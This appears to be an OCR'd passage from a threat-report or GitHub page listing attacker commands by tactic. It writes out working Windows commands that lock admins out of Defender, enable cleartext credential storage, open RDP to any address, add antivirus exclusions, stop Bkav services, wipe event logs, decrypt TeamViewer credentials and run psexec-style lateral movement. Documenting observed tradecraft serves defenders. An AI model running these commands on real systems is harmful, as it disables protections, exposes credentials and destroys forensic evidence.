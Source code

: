 ```bash
sc.exe sdset WindowsDefend "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```

* Modifies the security descriptor of the Windows Defender service. Can block admins from controlling or stopping Defender, breaking security operations.

```bash
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

* Enables WDigest cleartext credential storage in memory (makes credential dumping easier).

```bash
netsh advfirewall firewall add rule name="Allow RDP (3389)" dir=in action=allow protocol=TCP localport=3389 remoteip=any profile=any enable=yes
```

* Adds a firewall rule to allow inbound RDP from any IP.

```bash
powershell -c "Add-MpPreference -ExclusionPath 'G:\<FILE_PATH>'
```

* Adds a Defender AV exclusion for the attacker’s file path (malware won’t be scanned there).

```bash
net stop "BkavService"
net stop "BkavSystemService
```

* Stops services of Bkav, a Vietnamese antivirus product.

```bash
Get-WinEvent -ListLog * | ForEach-Object { Clear-EventLog -LogName $_.LogName -ErrorAction SilentlyContinue }
Clear-EventLog -LogName System, Security, Application
```

* Attempts to wipe all Windows event logs.

## Credential Access

```bash
DecryptTeamViewer.exe
``` 

* Red team tooling “to enumerate and decrypt TeamViewer credentials from Windows registry.” - https://github.com/V1V1/DecryptTeamViewer

## Lateral Movement

```bash
SharpExec.exe -m=psexec -i=192.168.1.2 -u=ftp -p=abc@123v -d= -e=C:\Windows\System32\cmd.exe -c=”whoami”
```
## Privilege Escalation

